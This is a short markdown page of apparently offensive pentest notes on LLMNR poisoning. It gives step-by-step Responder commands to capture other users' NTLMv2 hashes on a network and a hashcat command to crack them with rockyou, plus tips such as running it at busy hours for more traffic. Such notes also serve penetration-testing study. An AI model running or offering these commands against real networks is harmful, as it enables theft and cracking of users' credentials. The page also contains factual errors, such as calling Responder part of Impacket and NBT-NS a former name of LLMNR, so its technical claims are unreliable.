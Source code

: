 # LLMNR Poisoning/Cracking Overview

## What is it?

* used to identify hosts when DNS fails
* previously known as NBT-NS

## Key Flaw

* service utilizes a users username and NTLMv2 hash when appropiately responded to as a response to us

![](../../../.gitbook/assets/llmnr-poisoning-cracking-overview.png)

## Gaining Access with LLMNR

### Step 1: Run Responder \(part of Impacket\)

```bash
ip a
#or
ifconfig #(note the interface)
```

```bash
python [Responder.py](http://responder.py/) -l tun0 -rdw
```

```bash
responder -I eth0 -rdw
```

* run first thing in the morning or at lunch so you can get a lot of traffic

### Step 2: Something has to cause DNS to Fail

* for example, someone typing out a wrong network drive

### Step 3: Get the NTLMv2 hashes

* Responder will give you the hashes \(saving with GEDIT is best\)
* downgrade Impacket or Responder if problems persist

### Step 4: Crack the hashes

```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
# put --force if it does not work
```

* if that does not work, try to crack with the hashcat.exe for Windows, easier to use
* GPU IS THE BEST WAY

## Other Password Lists

* [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

